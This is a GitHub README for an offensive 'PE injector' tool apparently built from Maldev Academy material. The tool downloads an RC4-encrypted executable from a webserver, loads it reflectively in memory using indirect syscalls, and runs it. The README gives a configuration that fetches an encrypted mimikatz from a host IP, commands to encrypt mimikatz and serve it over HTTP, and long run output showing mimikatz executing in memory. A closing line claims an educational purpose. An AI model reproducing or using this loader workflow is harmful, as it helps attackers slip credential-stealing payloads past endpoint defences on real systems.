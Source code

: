 # PEInjector
A simple PE injector that downloads encrypted PE executable from a webserver maps it in the current process
fixes all relocations and imports and executes its entrypoint.

## Features
  - Make use of indirect syscalls 
  
  - Downloads the PE from a webserver, or reads it from a local file (mainly for testing)
  
  - RC4 encryption for the PE
  
  - Able to run EXE or DLL (along with an exported func from the DLL)
  
  - Pass arguments to the PE that will be executed
  
  
## TODO
  - Remove the need for LoadLibrary and GetProcAddress to resolve the PE's import table
  - Remove the need for the CRT library
  - Download the encryption key along with the payload
  

## Usage
Most of the configuration options are located in `main.h`, just configure, compile and run.
```c
/*---------------------------
 Read from web or local file
---------------------------*/
#define WEB 80
//#define SECURE 443

#define HOST L"192.168.100.161"
#define REMOTE_FILE L"mimikatz-enc.bin"
//#define LOCAL_FILE "C:\\Users\\nullb1t3\\Desktop\\mimikatz-enc.bin"

#define PE_ARGS "coffee exit"
//#define DLL_EXPORTED_FUNC "someExportedFunc"    //in case of DLLs

/*------------------
  Debug output
------------------*/
#define DEBUG
```

 - Encrypt a payload [PayloadEncryptor](https://github.com/vgeorgiev90/MalDevAcademy/tree/master/PayloadEncryptor)
 ```powershell
PS C:\Users\nullb1t3\Desktop> .\PayloadEncryptor.exe C:\Users\nullb1t3\Desktop\mimikatz.exe C:\Users\nullb1t3\Desktop\mimikatz-enc.bin
Reading file: C:\Users\nullb1t3\Desktop\mimikatz.exe
XORing the encryption key.
Doing some magick.
Writing data to: C:\Users\nullb1t3\Desktop\mimikatz-enc.bin

PS C:\Users\nullb1t3\Desktop> python -m http.server 80
Serving HTTP on :: port 80 (http://[::]:80/) ...
 ```
 
 - Run it, by downloading the PE from a webserver or read it from a file locally (debug output can be turned off)
 ```powershell
 PS C:\Users\nullb1t3\Desktop> .\PEInjector.exe
[*] Initializing syscalls structure.
[*] Fetching information about syscall: 0x6E8AC28E.
[*] Initializing NT structure.
[*] PEB: 0x0000002998BE9000

[*] ntdll base: 0x00007FFB496B0000
[*] Names array: 0x00007FFB498047B4
[*] Addresses array: 0x00007FFB498021A8
[*] Ordinals array: 0x00007FFB49806DBC
[*] Names offset: 0x00007FFB498047B4
[*] Addrs offset: 0x00007FFB498021A8
[*] Ordls offset: 0x00007FFB49806DBC
[*] Number of functions: 2434

[*] Init NT struct finished.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D3E2.
[*] Fetching information about syscall: 0x1DA5BB2B.
[*] Found a jump address for indirect syscall: 0x00007FFB4974DAE2.
[*] Fetching information about syscall: 0x6299AD3D.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D162.
[*] Fetching information about syscall: 0x8EC0B84A.
[*] Found a jump address for indirect syscall: 0x00007FFB4974E912.
[*] Fetching information about syscall: 0x369BD981.
[*] Found a jump address for indirect syscall: 0x00007FFB4974D2C2.

[*] NtAllocateVirtualMemory SSN: 24.
[*] NtCreateThreadEx SSN: 194.
[*] NtProtectVirtualMemory SSN: 80.
[*] NtWaitForSingleObject SSN: 4.
[*] NtClose SSN: 15.
[*] Init done!

[*] Downloaded the PE with size: 1355264
[*] Decrypting the PE with size: 1355264.
[*] Decrypted!
[*] Parsing loaded PE file's headers
[*] Populating Data Directories
[*] Parsing finished
[*] Allocating memory with size: 1372160
[*] Copying PE sections in the allocated memory with start address: 0x000001E787590000
[*] Finished
[*] Attempting to apply base relocaitons
[*] Finished applying relocations
[*] Resolving the PE's import table
[*] Reached the end of the import descriptors array
[*] Fixing sections memory permissions, number of sections: 6
[*] Checking memory protection for section: 0
        > PAGE_READONLY
        > PAGE_EXECUTE
        > PAGE_EXECUTE_READ
[*] Checking memory protection for section: 1
        > PAGE_READONLY
[*] Checking memory protection for section: 2
        > PAGE_WRITECOPY
        > PAGE_READONLY
        > PAGE_READWRITE
[*] Checking memory protection for section: 3
        > PAGE_READONLY
[*] Checking memory protection for section: 4
        > PAGE_READONLY
[*] Checking memory protection for section: 5
        > PAGE_READONLY
[*] Finished applying sections memory protections
[*] Finished patching command line arguments
[*] PE Output:


  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # coffee

    ( (
     ) )
  .______.
  |      |]
  \      /
   `----'

mimikatz(commandline) # exit
Bye!
 ```


## Credits
- @mr.d0x @NUL0x4C and @5pider and the incredible [Maldev academy](https://maldevacademy.com/)


## Disclaimer
As always this simple tool is created for educational purposes only ! 